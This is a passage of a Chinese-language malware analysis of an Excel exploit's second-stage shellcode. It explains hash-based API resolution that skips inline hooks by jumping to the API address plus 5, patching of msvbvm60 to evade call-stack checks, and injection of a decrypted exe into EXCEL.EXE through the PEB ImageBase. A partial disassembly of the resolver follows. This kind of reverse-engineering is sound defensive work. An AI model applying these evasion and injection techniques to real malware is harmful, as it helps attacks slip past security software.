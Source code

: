 &emsp;&emsp;可以看到第一段小shellcode的作用就是查找并解密真正的shellcode，并跳转过去。到目前为止，所用的方法都比较常规，除了用了一个反常简单的反调试以外，并没有什么特殊之处。
而真正有价值的是第二段shellcode，也就是包含真正功能的shellcode。

## Shellcode2 ##

第二段shellcode是此exp的真正精华所在，这段shellcode应该也是使用C语言编写的，长度非常的长，主要做了以下几件事情：
1. 获取API地址+5的地址，而不是调用API地址，而是每次调用时都判断有没有inline hook，可以绕过杀软的应用层hook和调试器int3断点。
2. 修改msvbvm60.dll的PutMemVar函数，把自身代码写进去，这样每次调用API都会从msvbvm60!PutMemVar发起，可以骗过某些根据调用栈判断exe/dll的杀软。
3. 从自身读出一个exe文件，并解密
4. 修复xls文件，使自身成为无漏洞的正常文件
5. 启动一个EXCEL.EXE进程，并把刚才读出的exe文件内容注入，通过修改PEB的ImageBase来执行exe代码。这样等于使用白名单进程做操作，所有杀软都会放行。
6. 结束自身进程
&emsp;&emsp;可以看出作者还是用了很多技巧来绕过杀软和反调试的，由于这些代码太长了，我只贴重点部分进行讲解。
通过HASH获取API地址：

    047C0373 55 push ebp
    047C0374 8BEC mov ebp, esp
    047C0376 83EC 0C sub esp, 0C
    047C0379 8B46 3C mov eax, dword ptr [esi+3C]
    047C037C 8B4430 78 mov eax, dword ptr [eax+esi+78]
    047C0380 8365 FC 00 and dword ptr [ebp-4], 0
    047C0384 03C6 add eax, esi
    047C0386 8B48 24 mov ecx, dword ptr [eax+24]
    047C0389 53 push ebx
    047C038A 8B58 1C mov ebx, dword ptr [eax+1C]
    047C038D 57 push edi
    047C038E 8B78 20 mov edi, dword ptr [eax+20]
    047C0391 8B40 18 mov eax, dword ptr [eax+18]
    047C0394 03CE add ecx, esi
    047C0396 03FE add edi, esi
    047C0398 03DE add ebx, esi
    047C039A 894D F4 mov dword ptr [ebp-C], ecx
    047C039D 8945 F8 mov dword ptr [ebp-8], eax
    047C03A0 85C0 test eax, eax
    047C03A2 76 1D jbe short 047C03C1
    047C03A4 8B45 FC mov eax, dword ptr [ebp-4]
    047C03A7 8B1487 mov edx, dword ptr [edi+eax*4]
    047C03AA 03D6 add edx, esi
    047C03AC E8 2B000000 call 047C03DC
    047C03B1 3945 08 cmp dword ptr [ebp+8], eax
    047C03B4 74 13 je short 047C03C9
    047C03B6 FF45 FC inc dword ptr [ebp-4]
    047C03B9 8B45 FC mov eax, dword ptr [ebp-4]
    047C03BC 3B45 F8 cmp eax, dword ptr [ebp-8]
    047C03BF ^ 72 E3 jb short 047C03A4
    047C03C1 33C0 xor eax, eax
    047C03C3 5F pop edi
    047C03C4 5B pop ebx
    047C03C5 C9 leave
    047C03C6 C2 0400 retn 4
    047C03C9 8B45 F4 mov eax, dword ptr [ebp-C]
    047C03CC 8B4D FC mov ecx, dword ptr [ebp-4]
    047C03CF 0FB70448 movzx eax, word ptr [eax+ecx*2]
    047C03D3 8B0483 mov eax, dword ptr [ebx+eax*4]
    047C03D6 8D4430 05 lea eax, dword ptr [eax+esi+5] ;可以看到这里获取API地址的时候+5，返回的是API地址+5，以绕过inline hook和软断点
    047C03DA ^ EB E7 jmp short 047C03C3
    047C03DC 33C0 xor eax, eax
    047C03DE EB 09 jmp short 047C03E9
    047C03E0 42 inc edx
    047C03E1 C1C8 0D ror eax, 0D
    047C03E4 0FBEC9 movsx ecx, cl
    047C03E7 03C1 add eax, ecx